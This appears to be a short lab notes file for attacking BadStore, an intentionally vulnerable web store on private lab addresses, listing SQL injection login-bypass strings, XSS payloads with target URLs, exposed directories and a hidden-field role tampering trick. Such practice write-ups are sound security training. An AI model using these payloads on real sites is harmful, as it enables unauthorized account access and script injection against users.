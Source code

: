 npm i
Front end- npm run dev
backend - npm run start

SQL Injection:
Login to My Account - 'or 1=1 or' admin' or 1=1# , admin' or '1'='1 
supplier login - admin' or 1=1# 

Cross-site Scripting (XSS):
Password Reset - </h2><script>alert(1);</script><h2> http://192.168.222.136/cgibin/badstore.cgi?action=moduser
Supplier Upload Portal - <img src=x onerror=alert(1);> http://192.168.222.136/cgibin/badstore.cgi?action=supupload
Guestbook -  </h2><script>alert(1);</script><h2> http://192.168.222.136/cgibin/badstore.cgi?action=doguestbook 

Publicly Available Directories :
robot.txt file
/supplier directory

Web Parameter Tampering:
?action=admin
<INPUT TYPE="hidden" NAME="role" VALUE="U"><INPUT TYPE="submit"
METHOD="POST" ACTION="http://192.168.222.138/cgi-bin/badstore.cgi?action=register"
